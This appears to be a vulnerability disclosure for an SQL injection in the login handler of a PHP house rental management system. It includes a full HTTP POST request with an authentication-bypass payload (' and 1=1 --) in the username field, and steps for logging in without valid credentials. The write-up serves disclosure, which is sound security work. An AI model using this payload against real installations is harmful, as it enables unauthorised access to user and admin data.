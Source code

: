 # Best house rental management system project in php admin_class.php SQL Injection vulnerability

# Best house rental management system project in php admin_class.php SQL Injection vulnerability

Exploit Title: Best house rental management system project in php admin_class.php SQL Injection vulnerability  
Exploit Author: webraybtl@webray.com.cn inc  
Vendor Homepage: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html  
Software Link: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+  
Version: Best house rental management system project in php v1.0

## Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability. Best house rental management system project in php does not filter the content correctly at the "admin_class.php" parameter, resulting in the generation of SQL injection.

#### Payload used:

```plaintext
POST /ajax.php?action=login HTTP/1.1
Host: 192.168.56.128:8080
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.56.128:8080/login.php
Content-Length: 66

username=mayuri.infospace%40gmail.com'+and+1%3D1+--%20&password=admin
```

#### Proof of Concept

1. Visit the home page and enter payload in the username input box. Enter any value for password.

> mayuri.infospace@gmail.com' and 1=1 --

​![image](assets/image-20240918173845-3vf6s8y.png)​

2.Click the login button to successfully enter the homepage.

​![image](assets/image-20240918173823-0lslvs1.png)​

Similarly, by sending a post request, you will see the login success code returned.

​![image](assets/image-20240918174224-r4n08af.png)​

In the admin_class.php source code, you can see that when executing SQL query statements, unfiltered username parameters are directly spliced, resulting in SQL injection vulnerabilities.

​![image](assets/image-20240918174719-aupleka.png)​

‍
